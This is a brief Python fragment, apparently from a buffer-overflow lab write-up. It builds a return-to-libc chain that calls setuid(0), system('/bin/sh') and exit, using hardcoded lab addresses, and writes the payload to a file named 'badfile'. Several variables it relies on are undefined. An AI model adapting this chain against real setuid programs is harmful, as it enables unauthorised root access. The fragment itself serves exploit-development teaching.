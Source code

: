 ```py


set_uid = 0xf7e99e30
system = 0xf7e12420
exit = 0xf7e04f80
nop = 0x56556442
shell = 0xf7f5c352


X = bias+20
content[X:X+4] = (set_uid).to_bytes(4,byteorder='little') 
content[X+4:X+8] = (nop).to_bytes(4,byteorder='little') 
content[X+8:X+12] = (zero).to_bytes(4,byteorder='little')
content[X+12:X+16] = (system).to_bytes(4,byteorder='little')
content[X+16:X+20] = (exit).to_bytes(4,byteorder='little')
content[X+20:X+24] = (shell).to_bytes(4,byteorder='little')


# Save content to a file
with open("badfile", "wb") as f:
  f.write(content)
```

